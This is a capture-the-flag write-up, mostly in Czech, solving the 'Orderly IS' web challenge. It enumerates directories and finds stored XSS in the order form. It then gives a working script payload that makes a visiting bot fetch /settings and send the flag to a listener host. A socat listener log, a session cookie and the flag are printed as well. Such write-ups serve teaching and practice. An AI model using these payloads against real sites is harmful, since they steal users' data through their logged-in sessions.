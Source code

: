 # Orderly IS

## Zadání

```
Hi, packet inspector,

do you want to order something? Use our Orderly information system, it is intuitive, fast, reliable and secure! At least that's what we claim in the TV ad. In last few hours it began to act weirdly, but its administrator is on vacation away from civilization (and connectivity).

You will have to break into the Orderly information system and check its configuration.

May the Packet be with you!
```

## Řešení

### 1. Enumerace

```
dirb http://orderly.mysterious-delivery.tcc:23000/
```

```
---- Scanning URL: http://10.99.0.131:23000/ ----
==> DIRECTORY: http://10.99.0.131:23000/javascript/                            
+ http://10.99.0.131:23000/login (CODE:200|SIZE:1846)                          
+ http://10.99.0.131:23000/logout (CODE:302|SIZE:199)                          
+ http://10.99.0.131:23000/server-status (CODE:403|SIZE:279)                   
+ http://10.99.0.131:23000/settings (CODE:302|SIZE:199)
```

* Stránka obsahuje skrytý endpoint `/settings`, kde je ovšem vyžadováno heslo.
* Dále je nastavena cookie `session` při přístupu na `/add`, je ovšem HttpOnly (viz dále)

### 2. `/order/add`

Zde můžeme zadat vstup, který je následně zobrazen. Vstup není sanitován -> XSS, například toto zobrazí dialogové okno "1":

```html
<script>alert(1)</script>
```

Pustíme ve vpn socat: `socat - TCP-LISTEN:5000,fork,reuseaddr` a ověříme že někdo stránku opravdu navštěvuje

```html
<img src="http://10.200.0.11:5000/">
```

Výstup obsahuje jednak náš přístup z Chrome, ale i cizí přístup z Firefoxu:

```
GET / HTTP/1.1
Host: 10.200.0.11:5000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://10.99.0.131:23000/
Accept-Encoding: gzip, deflate
Accept-Language: cs,en;q=0.9,sk;q=0.8

GET / HTTP/1.1
Host: 10.200.0.11:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.99.0.131:23000/
Connection: keep-alive
```

### 3. Extrakce vlajky

Cookie bohužel nelze poslat pomocí javascript, protože nastavení cookie je HttpOnly:

```
Set-Cookie: session=eyJjc3JmX3Rva2VuIjoiMzUwYmEzOTIxMzhmNDdlYzRiNWVmMmI2ZjQ5ZDk2MjU4ZjVkMmE5OSJ9.Y1-3rA.4U_WCstHvtoQSr6MTx8S9_GR0z4; HttpOnly; Path=/
```

Můžeme ale využít endpoint `/settings`, který pravděpodobně bude obsahovat vlajku a přihlášený uživatel k ní bude mí přístup. Je vhodné omezit počet znaků v HTTP requestu a tak ve stránce najdeme "FLAG" a výsledek si pošleme do socat:

```html
<script>
function httpGet(url)
{
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", url, false);
    xmlHttp.send(null);
    return xmlHttp.responseText;
}
var out = httpGet('/settings');
var index = out.indexOf("FLAG");
httpGet('http://10.200.0.11:5000/?data='+out.substr(index, index + 30));
</script>
```

Výstup:

```
GET /?data=FLAG{9QVE-0miw-qnwm-ER9m}%3C/span%3E%20%20%20%20%20%20%20%20%3C/div%3E%3Cscript%20src=%22/static/jquery.min.js%22%3E%3C/script%3E%3Cscript%20src=%22/static/bootstrap.min.js%22%3E%3C/script%3E%3C/body%3E%3C/html%3E HTTP/1.1
Host: 10.200.0.11:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.99.0.131:23000/
Origin: http://10.99.0.131:23000
Connection: keep-alive
```

## Vlajka

```
FLAG{9QVE-0miw-qnwm-ER9m}
```
